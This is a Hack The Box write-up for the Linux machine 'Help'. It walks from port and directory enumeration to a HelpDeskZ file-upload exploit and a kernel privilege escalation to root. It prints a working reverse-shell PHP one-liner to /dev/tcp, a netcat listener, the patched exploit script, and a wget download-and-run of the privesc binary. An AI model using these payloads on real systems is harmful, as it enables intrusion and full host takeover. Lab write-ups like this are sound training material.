


---
search:
  exclude: true
---
# Help Writeup

## Introduction :

Help is an easy Linux box that was released back in January 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
      → nmap -F 10.10.10.121 --top-ports 60000
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-06 19:59 CET
      Nmap scan report for 10.10.10.121
      Host is up (0.037s latency).
      Not shown: 8317 closed ports
      PORT     STATE SERVICE
      22/tcp   open  ssh
      80/tcp   open  http
      3000/tcp open  ppp
    
      Nmap done: 1 IP address (1 host up) scanned in 10.09 seconds
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
      → nmap -sCV -p 22,80,3000 10.10.10.121
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-06 19:59 CET
      Nmap scan report for 10.10.10.121
      Host is up (0.030s latency).
    
      PORT     STATE SERVICE VERSION
      22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
      |   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
      |_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
      80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Apache2 Ubuntu Default Page: It works
      3000/tcp open  http    Node.js Express framework
      |_http-title: Site doesn't have a title (application/json; charset=utf-8).
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 19.83 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan seems to have picked up 2 interesting ports here : 80 and 3000. Let's run a dirsearch command on both these ports to enumerate what folders may be available for us to browse.

_Terminal 1:_
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
    → dirsearch -u http://10.10.10.121/ -e php -x 403 -r
    

_Terminal 2:_
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
      → dirsearch -u http://10.10.10.121:3000/ -e php -x 403 -r
    
    Target: http://10.10.10.121:3000/
    
    [20:04:07] Starting:
    [20:04:21] 400 -   18B  - /graphql
    [20:04:21] 400 -   18B  - /graphql/console/
    
    Task Completed
    
    

Looking at the results, we see that dirsearch wasn't able to find alot of folders for the 3000th port, however it was able to find much more for the 80th port. 
    
    
      [20:04:08] Starting:
      [20:04:23] 200 -   11KB - /index.md
      [20:04:23] 301 -  317B  - /javascript  ->  http://10.10.10.121/javascript/
      [20:04:31] 301 -  314B  - /support  ->  http://10.10.10.121/support/
      [20:04:34] Starting: javascript/
      [20:05:00] Starting: support/
      [20:05:00] 200 -  378B  - /support/.gitattributes
      [20:05:10] 301 -  318B  - /support/css  ->  http://10.10.10.121/support/css/
      [20:05:12] 200 -    1KB - /support/favicon.ico
      [20:05:14] 301 -  321B  - /support/images  ->  http://10.10.10.121/support/images/
      [20:05:14] 301 -  323B  - /support/includes  ->  http://10.10.10.121/support/includes/
      [20:05:14] 302 -    0B  - /support/includes/  ->  /
      [20:05:14] 200 -    4KB - /support/index.php/login/
      [20:05:14] 200 -    4KB - /support/index.php
      [20:05:15] 301 -  317B  - /support/js  ->  http://10.10.10.121/support/js/
      [20:05:15] 301 -  325B  - /support/js/tinymce  ->  http://10.10.10.121/support/js/tinymce/
      [20:05:15] 302 -    0B  - /support/js/tinymce/  ->  /
      [20:05:15] 200 -   18KB - /support/LICENSE.txt
      [20:05:20] 200 -    7KB - /support/readme.html
      [20:05:20] 200 -    3KB - /support/README.md
      [20:05:24] 301 -  322B  - /support/uploads  ->  http://10.10.10.121/support/uploads/
      [20:05:24] 302 -    0B  - /support/uploads/  ->  /
      [20:05:25] Starting: css/
      [20:05:50] Starting: images/
      [20:06:15] Starting: includes/
      [20:06:40] Starting: js/
      [20:07:05] Starting: uploads/
    
      Task Completed
    
    

navigating to the 80th port's /support page, we are redirected to a helpdeskz webpage. Let's run a quick searchsploit command in order to get an idea of the exploits we could use for this webservice.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
    → searchsploit helpdeskz
    ------------------------------------ ----------------------------------------
     Exploit Title                      |  Path
                                        | (/usr/share/exploitdb/)
    ------------------------------------ ----------------------------------------
    HelpDeskZ 1.0.2 - Arbitrary File Up | exploits/php/webapps/40300.py
    HelpDeskZ < 1.0.2 - (Authenticated) | exploits/php/webapps/41200.py
    ------------------------------------ ----------------------------------------
    Shellcodes: No Result
    

Looks like we may have a python script for us to use. Let's first locate where it is located in our system, and copy it to our current directory.
    
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
    → locate 40300.py
    /usr/share/exploitdb/exploits/php/webapps/40300.py
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
    → cp /usr/share/exploitdb/exploits/php/webapps/40300.py .
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
    → ls
    40300.py
    

Looking at the github page for helpdeskz, especially the [php file](https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/controllers/submit_ticket_controller.php) that handles the ticket submissions, We see that the code seems to possess a few vulnerabilities. 

First of all, we see that the upload directory should end with tickets/ 

Second, we see that the uploaded file gets appended a timestamp to it, and then gets hashed through the md5 algorithm. 

To find out about the time running onto the machine, we can simply use the curl command. 
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
      → curl -v http://10.10.10.121/support/
      *   Trying 10.10.10.121:80...
      * TCP_NODELAY set
      * Connected to 10.10.10.121 (10.10.10.121) port 80 (#0)
      > GET /support/ HTTP/1.1
      > Host: 10.10.10.121
      > User-Agent: curl/7.67.0
      > Accept: */*
      >
      * Mark bundle as not supporting multiuse
      < HTTP/1.1 200 OK
      < Date: Fri, 06 Dec 2019 19:35:42 GMT
      < Server: Apache/2.4.18 (Ubuntu)
      < Set-Cookie: PHPSESSID=e9fa26li4655k4nrm8pk3aa0g2; path=/
      < Expires: Thu, 19 Nov 1981 08:52:00 GMT
      < Cache-Control: no-store, no-cache, must-revalidate
      < Pragma: no-cache
      < Set-Cookie: lang=english; expires=Fri, 13-Dec-2019 19:35:42 GMT; Max-Age=604800
      < Vary: Accept-Encoding
      < Content-Length: 4453
      < Content-Type: text/html; charset=UTF-8
      <
    
    

Since the people that wrote the script seem to have forgotten the parentheses to literally every single print statement, we'll finish their job using the CLI text editor called "nano"
    
    
    import hashlib
    import time
    import sys
    import requests
    
    print('Helpdeskz v1.0.2 - Unauthenticated shell upload exploit')
    
    if(len(sys.argv) < 3):
        print("Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0]))
        sys.exit(1)
    
    helpdeskzBaseUrl = sys.argv[1]
    fileName = sys.argv[2]
    
    currentTime = int(time.time())
    
    for x in range(300, 600):
        plaintext = fileName + str(currentTime - x)
        **plaintext = plaintext.encode('utf-8')**
        md5hash = hashlib.md5(plaintext).hexdigest()
    
        url = helpdeskzBaseUrl+md5hash+'.php'
        response = requests.head(url)
        if response.status_code == 200:
            print("found!")
            print(url)
            sys.exit(0)
    
    print("Sorry, I did not find anything")
    

Do not forget to add the highlighted line of code 

let's not forget our reverse php shell one liner that we will save as nihilist.php
    
    
      <****?php
      echo("nihilist WAS HERE");
      exec("/bin/bash -c 'bash -i > & /dev/tcp/10.10.14.48/9001 0>&1'");
    
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
    → nano nihilist.php
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
    → chmod 777 nihilist.php
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
    → ls -l
    total 8
    -rwxr-xr-x 1 nihilist users 690 Dec  6 20:50 40300.py
    -rwxrwxrwx 1 nihilist users  99 Dec  6 20:51 nihilist.php
    

Now before we upload our reverse shell nihilist.php onto through the helpdeskz ticket submission, and then try to browse to it using the correct python script, we ready our first terminal with the nc command to catch the incoming reverse shell connection onto our 9001st port, and we ready the python script inside the second terminal, because we do not want to waste much time, as the timestamp here is important for the exploit to be successful.

_Terminal 1:_
    
    
        λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
    → nc -lvnp 9001
      

_Terminal 2:_
    
    
        λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
    → python 40300.py http://10.10.10.121/support/uploads/tickets/ nihilist.php
      

as we click submit, we run the python script right after , so that we make sure that our python script can find our timestamped md5 hashed shell. 

_Terminal 1:_
    
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
    → nc -lvnp 9001
    Connection from 10.10.10.121:58982
    bash: cannot set terminal process group (809): Inappropriate ioctl for device
    bash: no job control in this shell
    
    help@help:/var/www/html/support/uploads/tickets$ ls
    ls
    17045dc4fa593d3df5b756a6f58a5e4b.php
    2fd3b632dbedfa05adcf9ba1c7cdfef1.php
    a963f7fea2767b2edcab7045b8be9deb.php
    dbdb2a8bb1ec0bda7b527398d2427d60.php
    index.php
    
    help@help:/var/www/html/support/uploads/tickets$ cat /home/help/user.txt
    cat /home/help/user.txt
    bbXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
      

And that's it for the user part ! We have been able to login as the "help" user, and we now have it's user flag.

## **Part 3 : Getting Root Access**

Running a quick uname command with the -a flag we see that the box may be vulnerable to a kernel exploit.
    
    
      help@help:/var/www/html/support/uploads/tickets$ uname -a
      uname -a
      Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
    

so let's see which exploit is available for this kernel version, using the searchsploit command. 
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
      → searchsploit linux 4.4.0-116
      --------------------------------------------------------------------------- ----------------------------------------
       Exploit Title                                                             |  Path
                                                                                 | (/usr/share/exploitdb/)
      --------------------------------------------------------------------------- ----------------------------------------
      Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation     | exploits/linux/local/44298.c
      --------------------------------------------------------------------------- ----------------------------------------
      Shellcodes: No Result
    

Seems like we will use the C exploit n°44298. Let's locate it and copy it onto our current directory.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
      → locate 44298.c
      /home/nihilist/_HTB/Bashed/44298.c
      /usr/share/exploitdb/exploits/linux/local/44298.c
    

Fun Fact : we're going to privesc the exact same way as we did back on the [Bashed](15.md) machine.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
      → cp /usr/share/exploitdb/exploits/linux/local/44298.c .
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
      → ls
      40300.py  44298.c  nihilist.php
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
      → gcc 44298.c -o nihilist.privesc
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
      → python -m SimpleHTTPServer 9999
      /usr/bin/python: No module named SimpleHTTPServer
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Help ]
      → python2 -m SimpleHTTPServer 9999
      Serving HTTP on 0.0.0.0 port 9999 ...
    

Once we compiled the exploit into the nihilist.privesc executable, we use python2's SimpleHTTPServer module on port 9999 to be able to upload the file onto the machine 
    
    
      help@help:/var/www/html/support/uploads/tickets$ which curl
    which curl
    help@help:/var/www/html/support/uploads/tickets$ which wget
    
    which wget
    /usr/bin/wget
    

Seems like we won't be able to use curl to download the executable, but that's no problem, since wget is there to save us. 
    
    
      help@help:/var/www/html/support/uploads/tickets$ wget http://10.10.14.48:9999/nihilist.privesc
    <****port/uploads/tickets$ wget http://10.10.14.48:9999/nihilist.privesc
    --2019-12-06 12:28:38--  http://10.10.14.48:9999/nihilist.privesc
    Connecting to 10.10.14.48:9999... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 17872 (17K) [application/octet-stream]
    Saving to: 'nihilist.privesc'
    
         0K .......... .......                                    100%  482K=0.04s
    
    2019-12-06 12:28:38 (482 KB/s) - 'nihilist.privesc' saved [17872/17872]
    
    help@help:/var/www/html/support/uploads/tickets$ ls
    ls
    17045dc4fa593d3df5b756a6f58a5e4b.php
    2fd3b632dbedfa05adcf9ba1c7cdfef1.php
    a963f7fea2767b2edcab7045b8be9deb.php
    dbdb2a8bb1ec0bda7b527398d2427d60.php
    nihilist.privesc
    index.php
    
    help@help:/var/www/html/support/uploads/tickets$ ./nihilist.privesc
    ./nihilist.privesc
    bash: ./nihilist.privesc: Permission denied

Let's not forget to change the executable's permissions to actually make it executable :
    
    
    help@help:/var/www/html/support/uploads/tickets$ chmod +x nihilist.privesc
    chmod +x nihilist.privesc
    
    help@help:/var/www/html/support/uploads/tickets$ ./nihilist.privesc
    ./nihilist.privesc
    
    id
    uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)
    
    cat /root/root.txt
    b7XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! We have been able to print the root flag. 

## **Conclusion**

Here we can see the progress graph :

